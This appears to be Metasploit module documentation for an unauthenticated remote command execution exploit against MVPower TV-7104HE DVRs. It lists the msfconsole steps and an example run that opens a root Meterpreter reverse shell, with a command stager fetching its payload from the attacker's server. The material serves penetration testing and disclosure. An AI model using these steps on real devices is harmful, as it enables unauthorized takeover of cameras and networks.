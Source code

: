 ## Vulnerable Application

  This module exploits an unauthenticated remote command execution vulnerability in MVPower digital video recorders. The 'shell' file on the web interface executes arbitrary operating system commands in the query string.

  This module was tested successfully on a MVPower model TV-7104HE with firmware version 1.8.4 115215B9 (Build 2014/11/17).

  The TV-7108HE model is also reportedly affected, but untested.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/http/mvpower_dvr_shell_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set lhost [IP]`
  5. Do: `run`
  6. You should get a session


## Example Run


  ```
  msf exploit(mvpower_dvr_shell_exec) > run

  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] 10.1.1.191:80 - Connecting to target
  [+] 10.1.1.191:80 - Target is vulnerable!
  [*] Using URL: http://0.0.0.0:8080/BBRyjDtj81x3bTq
  [*] Local IP: http://10.1.1.197:8080/BBRyjDtj81x3bTq
  [*] Meterpreter session 1 opened (10.1.1.197:4444 -> 10.1.1.191:56881) at 2017-02-21 23:59:33 -0500
  [*] Command Stager progress - 100.00% done (117/117 bytes)
  [*] Server stopped.

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 10.1.1.191
  OS           :  (Linux 3.0.8)
  Architecture : armv7l
  Meterpreter  : armle/linux
  meterpreter > 
  ```
